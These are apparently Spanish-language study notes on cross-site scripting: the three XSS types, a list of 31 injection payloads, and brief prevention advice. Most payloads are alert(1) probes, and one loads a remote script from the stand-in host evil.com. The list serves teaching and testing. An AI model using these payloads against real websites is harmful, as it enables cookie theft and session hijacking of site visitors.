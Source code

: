 ```yaml
---
layout: default
---
```


# Apuntes sobre XSS (Cross-Site Scripting)

## ¿Qué es XSS?

Cross-Site Scripting (XSS) es una vulnerabilidad de seguridad que permite a los atacantes inyectar scripts maliciosos en páginas web vistas por otros usuarios. Los scripts inyectados pueden robar cookies, secuestrar sesiones, redirigir a los usuarios a sitios maliciosos, entre otros.

## Tipos de XSS

1. **XSS Reflejado**: El script malicioso es reflejado de inmediato por el servidor. Generalmente se explota a través de enlaces manipulados.
  
2. **XSS Almacenado**: El script malicioso se almacena en el servidor y se sirve a otros usuarios. Este tipo es más peligroso, ya que puede afectar a múltiples usuarios.
  
3. **XSS DOM-based**: El ataque se produce cuando el navegador procesa la entrada del usuario sin una adecuada validación.

## Payloads Comunes

Aquí hay una lista de algunos payloads utilizados comúnmente para realizar ataques XSS:

1. `<script>alert(1)</script>`
2. `"><script>alert(1)</script>`
3. `<svg onload=alert(1)>`
4. `<iframe src="javascript:alert(1)"></iframe>`
5. `<IMG SRC="javascript:alert(1)">`
6. `"><img src=x onerror=alert(1)>`
7. `<svg><script>alert(1)</script>`
8. `<svg/onload=alert(1)>`
9. `<math><maction xlink:href="javascript:alert(1)">X`
10. `<body onload=alert(1)>`
11. `"><svg/onload=alert(1)>`
12. `<details open ontoggle=alert(1)>`
13. `<marquee onstart=alert(1)>`
14. `<video src="javascript:alert(1)"></video>`
15. `<object data="javascript:alert(1)"></object>`
16. `<iframe srcdoc="<script>alert(1)</script>"></iframe>`
17. `"><input autofocus onfocus=alert(1)>`
18. `<embed src="data:text/html,<script>alert(1)</script>">`
19. `<form><button formaction=javascript:alert(1)>CLICK</button></form>`
20. `<isindex action="javascript:alert(1)">`
21. `<textarea autofocus onfocus=alert(1)>`
22. `<script src="https://evil.com/xss.js"></script>`
23. `<iframe src="data:text/html,<script>alert(1)"></script>">`
24. `<math href="javascript:alert(1)">X`
25. `"><input type="text" value="x" onfocus=alert(1)>`
26. `<svg><desc><![CDATA[</desc><script>alert(1)</script>]]>`
27. `<style>*{xss:expression(alert(1))}</style>`
28. `<base href="javascript:alert(1)//">`
29. `"><link rel="stylesheet" href="javascript:alert(1)">`
30. `"><meta http-equiv="refresh" content="0;url=javascript:alert(1)">`
31. `<svg/onload=alert(String.fromCharCode(88,83,83))>`

## Prevención de XSS

1. **Validación de Entrada**: Validar y sanitizar todos los datos de entrada del usuario.
  
2. **Content Security Policy (CSP)**: Implementar CSP para mitigar los efectos de los scripts maliciosos.
  
3. **Escapado de Salida**: Escapar correctamente los datos antes de renderizarlos en HTML.

## Conclusión

XSS es una vulnerabilidad grave que puede ser explotada de diversas maneras. La prevención requiere una combinación de buenas prácticas en el manejo de datos de entrada y salida.

**¡Mantente seguro!**
